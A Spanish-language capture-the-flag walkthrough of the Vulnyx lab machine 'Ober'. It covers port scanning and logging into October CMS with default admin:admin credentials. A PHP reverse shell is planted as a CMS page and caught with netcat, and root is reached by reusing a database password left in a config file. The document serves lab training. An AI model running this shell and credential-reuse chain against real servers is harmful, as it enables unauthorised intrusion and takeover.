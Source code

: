 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Ober Vulnyx (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-28 05:48 EDT
Nmap scan report for 192.168.5.91
Host is up (0.0023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 27:21:9e:b5:39:63:e9:1f:2c:b2:6b:d3:3a:5f:31:7b (RSA)
|   256 bf:90:8a:a5:d7:e5:de:89:e6:1a:36:a1:93:40:18:57 (ECDSA)
|_  256 95:1f:32:95:78:08:50:45:cd:8c:7c:71:4a:d4:6c:1c (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Homepage &#124; My new websites
8080/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
|_http-open-proxy: Proxy might be redirecting requests
MAC Address: 08:00:27:20:C2:7D (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```

Veremos que hay varios puertos interesantes como por ejemplo el `80` y el `8080`, si entramos en el `80` veremos una pagina web normal que parece ser que esta bajo un `software` sofisticado y no a mano directamente, vamos a investigar un poco bajo que contenido esta esta pagina.

Con `Wappalyzer` podremos ver esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-28 140728.png" alt=""><figcaption></figcaption></figure>

En el gestor de contenido de `CMS` veremos que esta bajo `October CMS`, vamos a investigar un poco mas esto.

Si intentamos realizar un `fuzzing` veremos que da muchos errores a nivel de peticion, por eso tendremos que buscar la estructura de carpetas con la que se compone dicho `software`, si nos vamos a esta `URL` veremos que muestra de forma publica la estructura:

URL = [Estructura de directorios October CMS](https://docs.octobercms.com/2.x/setup/structure.html#vendor-directory)

Aqui podremos ver todas las rutas como por ejemplo `system`, `cms`, `backend`, etc... Lo que vemos interesante es el directorio `backend`, vamos a probar a entrar a ver que vemos.

## Escalate user www-data

```
URL = http://<IP>/backend
```

Info:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-28 141454.png" alt=""><figcaption></figcaption></figure>

Veremos que si nos lleva a un `login` por lo que vamos a probar credenciales por defecto, si buscamos las credenciales por defecto, veremos lo siguiente:

URL = [Defaults Password Admin CMS](https://octobercms.com/forum/post/is-there-a-default-admin-user-password-and-name)

Vemos que hay un usuario que pone que las credenciales por defecto seria `admin:admin`, vamos a probarlas a ver si funciona.

```
User: admin
Pass: admin
```

Veremos que ha funcionado, por lo que estamos dentro del panel, si nos vamos a `CMS` -> `+ Add`, dentro de esta parte tendremos que crear una pagina en la que podremos obtener una `shell`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-28 142608.png" alt=""><figcaption></figcaption></figure>

> shell.php

```php
function onStart() {
    $sock = fsockopen("<IP>", <PORT>);
    $proc = proc_open("sh", [
        0 => $sock,
        1 => $sock,
        2 => $sock
    ], $pipes);
}
```

Ahora vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora vamos a darle a `Save` para que se guarde la pagina, una vez echo esto vamos acceder con `curl` a dicha pagina que hemos creado de `/shell` para que se nos haga la conexion:

```shell
curl -sX GET "http://<IP>/shell"
```

Ahora si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.91] 53468
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si entramos en la carpeta `config/` veremos varios `.php` que son interesantes entre ellos, veremos un archivo llamado `database.php`, vamos a ver que contiene:

```shell
cd /var/www/html/octobercms/config
cat database.php
```

Info:

```
'connections' => [

        'sqlite' => [
            'driver'   => 'sqlite',
            'database' => 'storage/database.sqlite',
            'prefix'   => '',
        ],

        'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => '3306',
            'database'   => 'octoberdb',
            'username'   => 'root',
            'password'   => 'root',
         // 'password'   => 'r00tP@ssW0rd',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],

        'pgsql' => [
            'driver'   => 'pgsql',
            'host'     => 'localhost',
            'port'     => 5432,
            'database' => 'database',
            'username' => 'root',
            'password' => '',
            'charset'  => 'utf8',
            'prefix'   => '',
            'schema'   => 'public',
        ],

        'sqlsrv' => [
            'driver'   => 'sqlsrv',
            'host'     => 'localhost',
            'port'     => 1433,
            'database' => 'database',
            'username' => 'root',
            'password' => '',
            'prefix'   => '',
        ],

    ],
```

Veremos esta seccion bastante interesante:

```
'mysql' => [
            'driver'     => 'mysql',
            'engine'     => 'InnoDB',
            'host'       => 'localhost',
            'port'       => '3306',
            'database'   => 'octoberdb',
            'username'   => 'root',
            'password'   => 'root',
         // 'password'   => 'r00tP@ssW0rd',
            'charset'    => 'utf8mb4',
            'collation'  => 'utf8mb4_unicode_ci',
            'prefix'     => '',
            'varcharmax' => 191,
        ],
```

Veremos que en el `password` contiene `r00tP@ssW0rd`, vamos a probar a ver si esa fuera la contraseña del usuario `root`.

```shell
su root
```

Metemos como contraseña `r00tP@ssW0rd`...

```
root@ober:/var/www/html/octobercms/config# whoami
root
```

Veremos que ha funcionado y seremos `root` directamente, por lo que leeremos la `flag` de `root` y la del usuario.

> user.txt

```
75970994f3256f77ad3ffca0ee61e3cc
```

> root.txt

```
5dfcd9cc7d148d769538039077e5d021
```
